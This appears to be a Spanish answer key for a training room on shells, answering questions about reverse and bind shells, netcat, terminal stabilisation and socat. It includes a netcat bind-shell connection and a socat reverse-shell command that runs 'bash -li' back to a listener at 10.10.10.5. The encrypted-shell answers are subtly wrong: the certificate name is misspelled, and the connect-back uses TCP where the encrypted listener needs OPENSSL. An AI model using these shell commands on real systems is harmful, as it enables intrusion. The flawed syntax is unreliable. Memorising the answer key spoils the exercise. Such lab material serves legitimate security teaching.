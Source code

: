 ## ¿Qué es una shell?

¿Qué tipo de shell se conecta de nuevo a un puerto de escucha en su computadora, Reverse (R) o Bind (B)?
 
    R

Ha inyectado código de shell malicioso en un sitio web. ¿Es probable que el caparazón que recibe sea interactivo? (S o N)
 
    N

Al usar un shell de enlace, ¿ejecutaría un oyente en el atacante (A) o el objetivo (T)?
 
    T

## Netcat

¿Qué opción le dice a netcat que escuche ?
 
    -l

¿Cómo se conectaría a un shell de enlace en la dirección IP: 10.10.10.11 con el puerto 8080?

    nc 10.10.10.11 8080

## Netcat Shell Stabilisation
¿Cómo cambiaría el tamaño de su terminal para tener 238 columnas?
 
    stty cols 238

¿Cuál es la sintaxis para configurar un servidor web Python3 en el puerto 80?
 
    sudo python3 -m http.server 80

## Socat

¿Cómo conseguiremos que socat escuche en el puerto TCP 8080?

    TCP-L:8080

## Socat Encrypted Shells 

¿Cuál es la sintaxis para configurar un OPENSSL-LISTENER usando la técnica tty de la tarea anterior? Utilice el puerto 
53 y un archivo PEM llamado "encrypt.pem"
 
    socat OPENSSL-LISTENER:53,cert=emcrypt.pem,verify=0 FILE:`tty`,raw,echo=0

Si su IP es 10.10.10.5, ¿qué sintaxis usaría para conectarse de nuevo a este oyente?

    socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane


